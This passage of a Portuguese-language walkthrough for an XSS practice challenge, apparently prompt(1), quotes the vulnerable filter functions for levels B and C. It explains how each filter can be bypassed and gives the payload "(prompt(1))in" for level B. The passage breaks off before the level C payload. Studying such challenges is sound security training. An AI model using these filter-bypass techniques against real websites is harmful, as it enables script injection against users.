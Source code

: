 `p'rompt(1)`

[![Print11.png](https://i.postimg.cc/CLtPFkhz/Print11.png)](https://postimg.cc/jLHQcWJb)

### Level B

Aqui está o enunciado do nível B:

```
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}        
```

Nesse nível, o nome digitado é inserido dentro de um JSON, no caso na linha:

```
var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';
```

Porém, ele não impede o uso de operadores, como o `in` por exemplo. Sendo assim, podemos utilizar o seguinte payload para contornar:

`"(prompt(1))in"`

[![Print12.png](https://i.postimg.cc/PfVK4Y82/Print12.png)](https://postimg.cc/F1cjFfpL)

### Level C

Aqui está o enunciado do nível C:

```
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}        
```

Esse código tenta evitar a inserção de prompt, alterando por alert. Porém, outros números e funções são permitidos, o que tem como contornar utilizando a função [eval](https://developer.mozilla.org/pt-BR/docs/Web/JavaScript/Reference/Global_Objects/eval). Para isso, utilizamos o seguinte payload:
